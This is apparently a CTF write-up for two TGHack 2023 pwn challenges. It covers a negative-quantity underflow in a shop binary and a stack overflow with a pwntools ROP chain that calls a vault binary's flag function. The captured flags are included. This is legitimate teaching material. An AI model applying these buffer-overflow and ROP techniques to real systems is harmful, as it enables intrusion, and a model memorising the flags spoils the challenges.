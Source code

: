 ```yaml
---
title: TGHack23
date: 2023-04-15 22:00:00 +0100
categories: [CTF, "2023"]
tags: [ctf, tghack, "2023", pwn, retwin]
---
```

Challenges were solved post-ctf.

# Pwn - Flag butikken
We have gotten a binary which when run displays some sort of shop
```
$ ./butikk
Velkommen til flag butikken! Her kan du kjøpe litt forskjellige flag!
Vi har ikke så mange enda, men flere kommer så følg med!
Du har 5 penger

1. Kjøp flag
2. Avslutt
> 1
1. CTF Flag - Antall: 1 - Pris: 100000
2. Norsk Flag - Antall: 10 - Pris: 5000
3. Svensk Flag - Antall: 500 - Pris: 5
> 1
Hvor mange vil du ha?
> 1
Total pris: 100000
Beklager, ikke nok penger :(
Du har 5 penger
```
It seems that we can specify the amount of flags we want to buy. We could reverse the binary to look at what the binary does with our input, but these shop-challenges sometimes do not handle negative numbers very well. So what happens if we try to buy -1 amount of CTF-flags?

```
1. Kjøp flag
2. Avslutt
> 1
1. CTF Flag - Antall: 1 - Pris: 100000
2. Norsk Flag - Antall: 10 - Pris: 5000
3. Svensk Flag - Antall: 500 - Pris: 5
> 1
Hvor mange vil du ha?
> -1
Total pris: -100000
Du kjøpte -1 for -100000
TG23{Underflow, overflow, all the flows}Du har 100005 penger
```
We get the flag!
```
TG23{Underflow, overflow, all the flows}Du har 100005 penger
```


# Pwn - Hvelvet
We are given another binary, but this one does not seem to do much
```
$ ./vault
Foran deg er en stor hvelv-dør, midt på er hjulet som sitter fast, men den står på tallet 0.
Til høyre er et display med en touchpad som lyser opp
Please supply passphrase: aaaa
$
```
If we give it a longer input it segfaults
```
$ ./vault
Foran deg er en stor hvelv-dør, midt på er hjulet som sitter fast, men den står på tallet 0.
Til høyre er et display med en touchpad som lyser opp
Please supply passphrase: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
$
```
Running checksec confirms that this might be some ROP challenge
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
```
From Ghidra we find the main function
```c
void main(void)

{
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;

  initialize();
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  printf(&DAT_00402068,(ulong)(uint)(int)number);
  puts(&DAT_004020d0);
  printf("Please supply passphrase: ");
  fgets((char *)&local_28,0x140,stdin);
  return;
}
```
There is also a function which prints us the flag if a pin is set correctly, looking something like this
```c
pin[0] = pin[0] ^ 1;
pin[1] = pin[0] ^ 2;
pin[2] = pin[0] ^ 3;
pin[3] = pin[0] ^ 4;

if(!strncmp(pin, code, 4)){
    puts("Sorry incorrect PIN");
    exit(1);
}
FILE *fp = fopen("flag.txt", "r");
chr = fgetc(f);
while(chr != EOF){
  printf("%c", chr);
  chr = fgetc(f);
}
```

We also have the functions `rotate_left`, `rotate_right` and `rotate`, which from Ghidra it seems that `rotate_left` and `rotate_right` rotates a number between 0-9, and `rotate`, which is called form both functions, assigns the number to the `code` array.

Pseudocode
```c
void rotate(){
  number = number + direction;
  code[idx] = number;
}

void rotate_left(){
  direction = -1;
  idx = (idx + 1) % 4;
  rotate();
}

void rotate_right(){
  direction = 1;
  idx = (idx + 1) % 4;
  rotate();
}
```
By overflowing the buffer in main we could call the rotate-functions to rotate the *code* to match the pin, then we could call the function printing the flag.

Our plan would then be:
- Find offset to RIP
- Find the pin, and rotate to match it
- Call flag-printing function

## Finding the offset to RIP
We find the offset using pwndbg using a cyclic pattern
```
pwndbg> cyclic 50
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
pwndbg> r
Starting program: /home/andreas/Downloads/tg23hack/writeups/pwn/pwn_hvelvet/TGHACK/Challenge/src/vault
Foran deg er en stor hvelv-dør, midt på er hjulet som sitter fast, men den står på tallet 0.
Til høyre er et display med en touchpad som lyser opp
Please supply passphrase: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga

Program received signal SIGSEGV, Segmentation fault.
<snip>
 ► 0x4014f6 <main+142>    ret    <0x6161616161616166>
<snip>
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```
The offset is 40

## Finding and matching the PIN
We find the address of the flag-printing function, `open_door`, using ROPgadget and call *open_door* with ROP. Inside of *open_door* we can break in GDB to view the PIN at the *strncmp* call


Building and sending the payload
```python

io = start()
io.recvuntil(b"passphrase:")

payload = b'A' * offset
payload += pack(exe.sym.open_door)

io.sendline(payload)
```
Breaking at the *strncmp* call we see the variables used in the function call
```
s1: 0x404070 (pin) ◂— 0x3030300031333337 /* '7331' */
s2: 0x404075 (code) ◂— 0xff00000030303030 /* '0000' */
n: 0x4
```

By playing with the rotations to get them correct and using the same method of breaking at *strncmp*, we end up with the payload
```python
payload = b'A' * offset
payload += pack(rot_right) * 3
payload += pack(rot_left) * 10
payload += pack(rot_right) * 8
payload += pack(rot_left) * 4
payload += pack(exe.sym.open_door)
io.sendline(payload)
```
Which gives ut the flag
```
$ python3 exploit.py
<snip>
[*] Switching to interactive mode
TG23{R0Ping around the v4ult}
[*] Got EOF while reading in interactive
$
```
```
TG23{R0Ping around the v4ult}
```
